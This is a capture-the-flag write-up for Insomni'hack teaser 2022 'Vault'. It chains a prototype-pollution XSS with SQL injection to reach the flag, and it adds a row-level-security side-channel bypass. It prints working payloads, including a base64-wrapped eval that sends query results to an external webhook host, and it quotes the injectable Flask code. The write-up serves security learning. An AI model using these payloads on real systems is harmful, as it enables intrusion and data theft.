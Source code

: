 ```yaml
---
title: Insomni'hack teaser 2022 – Vault
date: '2022-01-31'
draft: false
authors: ['thebish0p']
tags: ["Insomni'hack teaser 2022", 'Web', 'Prototype Pollution', 'SQLi', 'Error Based Injection']
summary: 'Prototype pollution which allows to run arbitrary js in admin context and retrieve the flag through the sql injection with an error based injection.'
---
```


## Vault

> by clZ
>
> A competing group has created a so-called secure Vault where people can store their secrets. We have serious doubts on their capacity to actually provide such a service. Could you show everyone that their solution is not as secure as they think?
>
> The Vault is available [here](http://vault.insomnihack.ch:5000/).
>
> They are so confident in their solution that they also released their [source code](https://static.insomnihack.ch/media/Vault_191c4ba6dc394e5713771ac4808a02330fd9583a-9516bb402ba3ca3401458c8d8e08d112cde7a9f7e9a5a9b349dc9ac403e1b48f_RR5HK9s.tgz).

We start by checking the web page and notice that there is a login, register and report link section. So my first thought was trying to find an XSS and report a link in order to grab an admin’s cookie for example but we had an issue we can’t register:

![Registration Error](/static/images/insomnihack-teaser-2022/registration_error.png)

We continue by checking the source code and manage to find a JavaScript Protocol Pollution bug that can lead to an XSS `http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script#page=secrets` as shown below:

![Alert XSS](/static/images/insomnihack-teaser-2022/xss_alert_1.png)

Time to try to get a callback from the admin through the report link function so we just add `fetch("https://webhook.site/388bc797-594f-4945-a407-5137e40ced43")` to our payload, report it and get a callback:

![First Callback](/static/images/insomnihack-teaser-2022/first_callback.png)

We noticed at this point that cookies on the site are `httpOnly` so we need something else:

```python
@app.route('/api/report', methods=['POST'])
def contact():
    url = request.form["url"]
    pattern = re.compile("^https?:\/\/")
    if len(url) > 0 and pattern.match(url):
        try:
            from selenium import webdriver
            from selenium.webdriver.common.keys import Keys
            from selenium.webdriver.chrome.options import Options
            import time
            session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
            adminsession = dict()
            adminsession["admin"] = 1
            adminsession["username"] = "admin"
            adminsession["password"] = os.environ.get("ADMIN_PWD")
            session_cookie = session_serializer.dumps(dict(adminsession))
            chrome_options = Options()
            chrome_options.headless = True
            chrome_options.add_argument('--no-sandbox')
            driver = webdriver.Chrome("/app/chromedriver", options=chrome_options)
            driver.set_page_load_timeout(30)
            driver.get("http://" + os.environ.get("VHOST") + "/")
            time.sleep(1)
            driver.add_cookie({"name": "session", "value":session_cookie,"httpOnly": True})
            driver.get(url)
            time.sleep(30)
            driver.close()
            return {'status':'OK'}
        except:
            return {'status':'KO','msg':'Error checking page'}
    return {'status':'KO','msg':'Invalid URL'}
```

We recheck the `app.py` file and notice that the `username` parameter in `/api/stats` is prone to SQL injection.

```python
@app.route('/api/stats')
def stats():
    if not "admin" in session or session["admin"] != 1:
        return {'status':'KO', 'msg': 'You are not admin'}
    else:
        try:
            conn_str = ("Driver={ODBC Driver 17 for SQL Server};"
                "Server=db,1433;"
                "Database=Vault;"
                "UID=" + session["username"] + ";"
                "PWD=" + session["password"])
            conn = pyodbc.connect(conn_str)
            cursor = conn.cursor()
            sql = "SELECT inserttime FROM dbo.Stats WHERE username = '" + request.args.get("username") + "'"
            cursor.execute(sql)
            res=cursor.fetchall()
            ret=[]
            for row in res:
                ret.append({'inserttime':row[0]})
            cursor.close()
            conn.close()
            return {'status':'OK','results':ret}
        except:
            return {'status':'NOK'}

```

We continue by adding an injection to our payload `fetch("/api/stats?username=admin' union select 123 --").then(x => x.text()).then(x=>{location='https://webhook.site/32903bb4-075a-4196-933d-2d558ae4a216/?secrets='+btoa(x)})` but we base64 it and then eval the decoded value in order for it to work : `http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,eval(atob(%27ZmV0Y2goIi9hcGkvc3RhdHM/dXNlcm5hbWU9YWRtaW4nIHVuaW9uIHNlbGVjdCAxMjMgLS0iKS50aGVuKHggPT4geC50ZXh0KCkpLnRoZW4oeD0%2be2xvY2F0aW9uPSdodHRwczovL3dlYmhvb2suc2l0ZS8zMjkwM2JiNC0wNzVhLTQxOTYtOTMzZC0yZDU1OGFlNGEyMTYvP3NlY3JldHM9JytidG9hKHgpfSk7%27))//&__proto__[dataType]=script#page=secrets` and get a callback as shown below:

![successful_injection](/static/images/insomnihack-teaser-2022/successful_injection.png)

After several failed attempts of selecting the flag from the database we notice that `install.sql` has a `SecurityPredicate` which prevents access from different users to specific rows:

```sql
DROP SECURITY POLICY IF EXISTS dbo.SecurityPolicy;
GO
DROP FUNCTION IF EXISTS dbo.SecurityPredicate;
GO
CREATE FUNCTION dbo.SecurityPredicate
(
  @UserName nvarchar(32)
)
RETURNS TABLE
WITH SCHEMABINDING
AS RETURN
(
  SELECT ok = 1 WHERE USER_NAME() = @UserName
);
GO

CREATE SECURITY POLICY dbo.SecurityPolicy
ADD FILTER PREDICATE dbo.SecurityPredicate(UserName)
ON dbo.Vault WITH (STATE = ON, SCHEMABINDING = ON);
GO
```

After some researching, I find this article named [Beware of Side-Channel Attacks in Row-Level Security in SQL Server 2016](https://www.mssqltips.com/sqlservertip/4379/beware-of-sidechannel-attacks-in-rowlevel-security-in-sql-server-2016/) explaining how to bypass this Predicate by causing an error like a zero division error so we tried to cause an error while trying to bruteforce each character of the flag.

Unfortunately, the CTF ended at this time and didn’t manage to finish the challenge on time but the injection required is shown below:

```sql
select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,1,1))-GUESS)=1
```

Finally what needs to be done is just looping through the characters of secret_value and sending for each one this payload :

```js
fetch('/api/stats?username=${encodeURIComponent(' union select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,${pos},1))-GUESS)=1;-- -')});`
```
